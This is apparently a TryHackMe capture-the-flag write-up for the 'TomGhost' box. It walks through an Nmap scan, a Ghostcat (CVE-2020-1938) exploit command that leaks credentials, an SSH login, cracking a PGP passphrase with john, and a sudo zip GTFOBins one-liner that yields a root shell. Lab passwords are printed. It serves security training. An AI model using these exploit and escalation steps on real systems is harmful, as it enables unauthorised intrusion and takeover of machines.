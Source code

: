 # TryHackMe
------------------------------------
### IP: 10.10.166.198
### Name: TomGhost
### Difficulty: Easy
--------------------------------------------------

![tomghost.jpeg](../assets/tomghost_assets/tomghost.jpeg)

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:
```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.166.198  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-13 08:39 CDT
Nmap scan report for 10.10.166.198
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Looking for exploits against Apache jserv I find this ghostcat PoC: https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.py

### Exploitation

We can lauch the exploit with:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ python2 CVE-2020-1938.py 10.10.166.198 -p 8009 -f WEB-INF/web.xml
```

Which drops some credentials for us:

tomghost_creds.png

We can use these credentials to login via SSH:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ ssh skyfuck@10.10.166.198                           
The authenticity of host '10.10.166.198 (10.10.166.198)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.166.198' (ED25519) to the list of known hosts.
skyfuck@10.10.166.198's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ hostname
ubuntu
```

We can now grab the user.txt flag:

tomghost_user_flag.png

### Privilege Escalation

Browsing around the target we find a file called tryhackme.asc, which is a PGP key:

tomghost_pgp.png

Trying to import and decrypt the key we see it is passphrase protected:

tomghost_nope.png

Lets transfer it over to our attacking machine and crack it with john by setting up a python http.server on the target:

```
skyfuck@ubuntu:~$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 ...
10.6.72.91 - - [13/Jul/2024 07:01:04] "GET /tryhackme.asc HTTP/1.1" 200 -
```

The using wget to download it locally:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ wget 10.10.166.198:1234/tryhackme.asc      
--2024-07-13 09:01:03--  http://10.10.166.198:1234/tryhackme.asc
Connecting to 10.10.166.198:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc                   100%[====================================================>]   5.02K  --.-KB/s    in 0s      

2024-07-13 09:01:03 (770 MB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

We can then use john to extract the hash from the PGP key:

tomghost_john.png

Cool, now that we have the passphrase we can run:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: already in secret keyring
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

Then:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Which gives us merlin's password.

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can the `su merlin` with the password:

```
skyfuck@ubuntu:~$ su merlin 
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

Running `sudo -l` to see what merlin can run with elevated permissions we find:

```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Heading to gtfobins.com we can get the command we'll need to exploit this:

tomghost_gtfo.png

Lets run:

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Which drops us into a root shell.

We can now grab the final flag:

tomghost_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------
